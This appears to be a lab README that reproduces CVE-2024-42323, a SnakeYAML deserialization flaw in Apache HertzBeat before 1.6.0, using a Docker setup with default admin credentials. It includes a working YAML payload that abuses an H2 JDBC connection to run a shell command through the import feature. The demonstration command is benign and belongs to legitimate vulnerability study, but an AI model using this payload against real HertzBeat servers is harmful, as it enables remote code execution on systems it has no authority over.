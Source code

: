 # Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First prepare a malicious YAML file that filename ends with `.yaml`:

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

Then log into the HertzBeat dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files, upload the malicious YAML file:

![Locate the import button](1.png)

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote code execution:

![Import the malicious YAML file](2.png)

If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:

![Verify code execution](3.png)
